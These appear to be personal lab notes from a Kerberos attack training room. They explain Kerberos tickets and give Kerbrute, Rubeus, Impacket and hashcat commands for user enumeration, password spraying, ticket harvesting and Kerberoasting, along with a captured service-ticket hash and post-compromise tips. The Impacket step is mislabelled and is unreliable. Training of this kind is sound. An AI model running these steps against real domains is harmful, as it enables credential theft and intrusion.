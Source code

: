 # Attacking Kerberos
### Task 1 Intro
Covers the topics of:
- Initial enumeration using tools like Kerbrute and Rubeus
- Kerberoasting
- AS-REP Roasting with Rubeus and Impacket
- Golden/Silver Ticket Attacks
- Pass the Ticket
- Skeleton key attacks using mimikatz

##### What is Kerberos?
Kerberos is the default authentication service for Microsoft Windows domains. it is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

**Common Terminology -**
- Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain
- Key Distribution Center (KDC) - The KDC is service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service
- Authentication Service (AS) - Issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets
- Ticket Granting Service (TGS) - Takes the TGT and returns a ticket to a machine on the domain.
- Service Principal Name (SPN) - A SPN is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
- KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. it is used to encrypt the TGT and sign the PAC.
- Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
- Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
- Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

**AS-REQ w/ Pre-Authentication In Detail**
The AS-REQ step in Kerberos authentication starts when a user requests a TGT from the KDC. In order to validate the user and create a TGT for the user, the KDC must follow these exact steps. The first step is for the user to encrypt a timestamp NT hash and send it to the AS. The KDC attempts to decrypt the timestamp using the NT hash from the user, if successful the KDC will issue a TGT as well as a session key for the user.

**Ticket Granting Ticket Contents**
The TGT is provided by the user to the KDC, in return, the KDC validates the TGT and returns a service ticket.

![[Pasted image 20220206170927.png]]

**Service Ticket Contents**
A service ticket contains two portions; the service provided portion and the user-provided portion.
- Service: User Details, Session Key, Encrypts the ticket with the service account NTLM hash.
- User: Validity Timestamp, Session Key, Encrypts with the TGT session key.

![[Pasted image 20220206171321.png]]

**Kerberos Authentication Overview**
![](https://i.imgur.com/VRr2B6w.png)

AS-REQ 1) The client requests an Authentication Ticket or Ticket Granting Ticket (TGT)
AS-REP 2) The Key Distribution Center verifies the client and send back an encrypted TGT
TGS-REQ 3) The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access.
TGS-REP 4) The KDC verifies the TGT of the user and that the user has access to the service, then sends a valid session key for the service to the client
AP-REQ 5) The client requests the service and sends the valid session key to prove the user has access.
AP-REP 6) The service grants access

**Kerberos Tickets Overview**
The main ticket is a TGT, can come in .kirbi for Rebeus or .ccache for Impacket. A ticket is typically base64 encoded and can be used for various attacks. A kRBTGT allows you to get any service ticket that you want allowing you to access anything on the domain that you want.

**Attack Privilege Requirements**
- Kerbrute Enumeration - No domain access required
- Pass the Ticket - Access as a user to the domain required
- Kerberoasting - Access as any user required
- AS-REP Roasting - Access as any user required
- Golden Ticket - Full domain compromise (domain admin) required
- Silver Ticket - Service hash required
- Skeleton Key - Full domain compromise (domain admin) required

### Task 2 Enumeration w/ Kerbrute
Need to add the DNS domain `<ip> CONTROLLER.local` to hosts file

**Abusing Pre-Authentication Overview**
By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams. When brute-forcing through kerberos you can brute-force by only sending a single UDP frame to the KDC allowing you to enumerate the users on the domain from a wordlist

```
2022/02/06 17:31:51 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2022/02/06 17:31:51 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2022/02/06 17:31:51 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2022/02/06 17:31:52 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2022/02/06 17:31:52 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2022/02/06 17:31:52 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2022/02/06 17:31:52 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2022/02/06 17:31:52 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2022/02/06 17:31:52 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2022/02/06 17:31:52 >  [+] VALID USERNAME:       user3@CONTROLLER.local

```

Users that are valid on the domain

### Task 3 Harvesting & Brute-Forcing Tickets w/ Rubeus
**Harvesting Tickets w/ Rubeus**
Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack

1) `cd Downloads` - navigate to the Rubeus directory
2) `Rubeus.exe harvest /interval:30` - Harvest for TGTs every 30 seconds

**Brute-Forcing / Password-Spraying w/ Rubeus**
Can brute passwords as well as password spray user accounts. This attack will take a given Kerberos-based password and spray it against all found useres and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well s to be used in attacks like th pass the ticket attack.

Before password spraying with Rubeus, you need to add the DC domain name to the windows host file.

`echo <ip> CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

1) `cd Downloads`
2) `Rubeus.exe brute /password:Password1 /noticket`

### Task 4 Kerberoasting w/ Rubeus & Impacket
This task includes one of the most popular Kerberos attacks - Kerberoasting. This allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BlooHound to find all Kerberoastable acounts.

`Rubeus.exe kerberoast` will find the users that can be kerberoasted.

Copy the hash over to the attacker machine and crack it using hashcat
```
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca l:30111*$4139FEEF60FCBBEAD950CE3B6E8A0AEB$DFABE438A1B05565F5AE15DB247B93B4B9BE31 ED2D8CBA5B598A254A52509239DDA33DC61E461ADBC75929C0B59821D80C40A13E4C78132C7C2F98 597EB899D2704F63CF0A6DC4E9E5754BDE27F93EBE67106DD8A2FE7C5086FE3784E16E59EE2EAB91 717D516C4D97ECDE3A2265F1A8AFD0EC3D6065EBE43BDB82E0ED052286EB210A281C269F35C61A19 148BA3517DBF74E6A0797EB783CD613DF6078077FE032E550890B7E371154BA092DC717118E8BEFA 091648F91AABF1A1025C876F96452A3953A2A356152A1C6D212CB95BA1C445AC8DDD5EBB2563AC08 1870DDCB0413160DFC6025EE188F33E1445110754636AA6B317963BC3A92846EC10126BB6A356482 6FDD497DCFA4BC20773E4BE92D7E280EF093AF71A0F9A5C3265F26E8EB3DA4ABA4D7330C457EA93A 69702D6BF5549CA67793835E7A3AB1F70B1D1A8801FA6A3FD39558CD7DC7E562A39B53716D3DEE63 3AF5D6FE11A9C7A9BDBA58524067FEFE5FF82BC512E2BA2F8A05423ADE5BA626ABCA21153D213C35 3E99DB61BD72C698B8FA2DFAD6A420915D346CB59EC05058AEF1A0F365ACF4D8C6C9A38BEFE394BA FF798E391DDF7FEF7892882778181DAB729EDEC8A87DC7B93764C5AE6A28AE9F45D1D4C836A06A44 21586D8B2F49DD4D784C374A4484C9E51E062859A6D763C4CA066C33A04DF1639D1D1F73CAA847FB 2D7EDF85E50A390584874E7F67D44479FCCA90426FEE0B8971743EA239F82B46172D455B0560D49C 5A7F8A1F3BBD637203C9F83BA2C088CE9F68BAD99E1D7B7527856804AF55D982F807038105AA3EE6 D292BF07F8DBEC1B79F1FDDBC7806194DC87D43D7A2EADC54631499A96B119787CD768ABDF577DE1 AA9E4E602B2D4ED42A88886E77D76D45A2F83336309BC8FCC15CB859BB1B328D909813F3E19D5716 A6E1B16FFC4849C19066720E3871DAB5C865BABF5AB71CBF38CE5ED1ABC5E0BC819AFE24BCF37E5A DFD0B12E7FB140D0EB646B527002E3C45F7CD79E3354094F91CD02D14669E917D1D148B844B1699F 56D9B1931B532C277DA13E199E3B4EF3AF03768544D64516A5E7644D186005D78BDE3A8505DD2B47 F8E4A1386BD82B6E9513C2554007D324EC073207867193A4ECACFD02BBA6806E4A5170DDC93C7764 FBA6E7B2E7D441E717BC677990B67903DB5DFC3E185DE61616C6CA488332AC52FEA15A6795DF1151 61A802DD80D510902CDA1C3E577E925DDBB29F9176EAC3543877044BDCDCB2262A31185B601BC518 D4E9BD903D9BA8AB7AF5F15B71B227F5622261B0D595B54FE49640FBBECBCE7C07A033377EAEE358 9553623447ECFEAFEF34C0F2E5D32FF1DA01B24B75F21140D247C1019660DF4041930F08DF143FA9 0B1E70D5165040B82BC4018D3F24C9AC2079849649263E28D842BDE807534728135CF4D2468486B5 3018CD2AD739DC7EC1D2F8351B4C36E23FAA79195ADFA9E7FCF7C1D8C73A1353033F9C107A8748EE 30D1CF3A212235D5092547A6D0844EBD21A7CDA3D31086AEFB6BC383BDA07F63C57320E8E5878872 54BBEB12B30E6A0D8CFB29854ED14F37D8CC1A3F739F4E6762ADF130C850EF45CAA2F3F19E9039C4 20ADBAD98D061F5365CFC481ABB60F418D168FBF4920492C24DA7C06EE
```

`hashcat -m 13100 -a 0 hash.txt pass.txt`

Password of the SQLService account -> ``

##### Method 2 Impacket
`python3 GetNPUsers.py <domain>/<user>:<password> -dc-ip <ip> -request`

Can be done remotely without having to be on the machine, like Rubeus requires.

##### What can a service account do?
After cracking the service account passowrd there are varous ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log on to other systems and pivot or escalate or you can use that cracked password to spray against other service and domaina dmin companies.

##### Kerberoasting mitigation
- Strong service passwords
- Don't make service accounts domain admins




``